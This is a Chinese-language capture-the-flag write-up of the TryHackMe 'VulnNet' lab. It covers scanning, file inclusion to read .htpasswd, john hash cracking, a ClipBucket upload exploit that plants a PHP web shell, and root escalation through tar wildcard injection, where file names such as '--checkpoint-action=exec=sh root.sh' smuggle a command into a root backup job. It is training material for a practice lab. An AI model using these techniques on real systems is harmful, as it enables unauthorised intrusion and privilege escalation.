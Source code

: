 ```yaml
---
sidebar_position: 101
tags: [Easy, Linux, 文件包含, 定时任务, 通配符]
title: "VulnNet"
description: "VulnNet"
sidebar_label: "VulnNet"
slug: /tryhackme/101
---
```


# VulnNet

## 端口扫描

```bash
root@ip-10-10-234-23:~/vulnnet1# nmap -sTCV -p 22,80 --min-rate 1000 10.10.47.181

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-09-19 01:56 BST
Nmap scan report for vulnnet.thm (10.10.47.181)
Host is up (0.00026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ea:c9:e8:67:76:0a:3f:97:09:a7:d7:a6:63:ad:c1:2c (RSA)
|   256 0f:c8:f6:d3:8e:4c:ea:67:47:68:84:dc:1c:2b:2e:34 (ECDSA)
|_  256 05:53:99:fc:98:10:b5:c3:68:00:6c:29:41:da:a5:c9 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: VulnNet
MAC Address: 02:C7:C9:2A:A6:ED (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.73 seconds
```

## 80

因为题目中给出了我一个域名所以我直接就进行了子域的扫描

```bash
root@ip-10-10-234-23:~/vulnnet1# gobuster vhost -u <http://vulnnet.thm/> -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          <http://vulnnet.thm/>
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2023/09/19 01:58:30 Starting gobuster
===============================================================
Found: broadcast.vulnnet.thm (Status: 401) [Size: 468]
```

可以看到我们扫描到了一个子域, 如果是正常渗透我们应该是从旁站下手, 但是这里我们还是要从主站下手 (访问我们扫描的子域需要我们提供密码)

访问主站这里并没有给出什么内容, 唯一可能有用还是 JS 内容, 所以我审计了前端的 JS 代码, 在其中收集到:

- http://broadcast.vulnnet.thm/  一个链接
- http://vulnnet.thm/index.php?referer=  从这个结构来看应该是文件包含没跑了那么我们自然要利用文件包含去读取 .htpasswd 文件

询问 GPT 得知 .htpasswd 文件的存储位置, 直接使用文件包含进行读取

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-124717.png)

读取到之后进行 hash 破解

```bash
root@ip-10-10-234-23:~/vulnnet1/_file-icons.png.extracted# john hash.txt --wordlis=`locate rockyou.txt`
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
Use the "--format=md5crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (developers)
1g 0:00:00:47 DONE (2023-09-19 02:39) 0.02090g/s 45184p/s 45184c/s 45184C/s 9981987654..9968615
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

当破解完成后我自然是需要去跳转到新的子域进行攻击, 我观察这个网站存在注册本来想的注册一个账号在上传其他内容来完成攻击, 但是没有办法注册, 同时网站的图标泄露了他的版本 ClipBucket 4.0 经过搜索发现存在文件上传漏洞

```bash
root@ip-10-10-234-23:~/vulnnet1/Exploit-ClipBucket-4-File-Upload# python3 exploit.py broadcast.vulnnet.thm developers 9972761drmfsls

          ==/           i     i           \\==_
        /XX/            |\\___/|            \\XX
      /XXXX\\            |XXXXX|            /XXXX
     |XXXXXX\\_         _XXXXXXX_         _/XXXXXX|
    XXXXXXXXXXXxxxxxxxXXXXXXXXXXXxxxxxxxXXXXXXXXXXX
   |XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX|
   XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
   |XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX|
    XXXXXX/^^^^"\\XXXXXXXXXXXXXXXXXXXXX/^^^^^\\XXXXXX
     |XXX|       \\XXX/^^\\XXXXX/^^\\XXX/       |XXX|
       \\XX\\       \\X/    \\XXX/    \\X/       /XX/
          "\\       "      \\X/      "      /"
                                     
                                      Autor: AbelJM
                              Web: abeljm.github.io
	
[*] Good Job!!
[*] Shell Uploaded!!

[+] Path Shell: <http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1695088051ccd163.php>

[+] Example Run Shell: <http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1695088051ccd163.php?cmd=whoami>
```

## 后渗透

### www-data

利用上面上传的 WebShell 来获取一个反向 Shell

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-124728.png)

### www-data —> server-management

我在定时任务中发现 root 用户会定时执行一个脚本, 并且观察这个脚本发现其存在通配符利用, 但是利用的前提是我们获得 server-management 的会话, 观察脚本我发现其将生成的备份文件存储到 /var/backups 中, 接着我在其中发现了一个 ssh-backup.tar.gz 所以将其下载并在其中发现了用户 server-management 的 SSH 私钥

```bash
root@ip-10-10-234-23:~/vulnnet1# john hash.txt --wordlist=`locate rockyou.txt`
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
oneTWO3gOyac     (id_rsa)
1g 0:00:00:23 DONE (2023-09-19 02:53) 0.04275g/s 613155p/s 613155c/s 613155C/s *7¡Vamos!
Session completed.
```

### server-management —> root

现在我们只需要按照通配符利用的姿势进行攻击就可以了

```bash
server-management@vulnnet:~/Documents$  echo 'chmod u+s /bin/bash' > root.sh
server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh root.sh"
server-management@vulnnet:~/Documents$ echo "" > --checkpoint=1
server-management@vulnnet:~/Documents$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
server-management@vulnnet:~/Documents$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
server-management@vulnnet:~/Documents$
```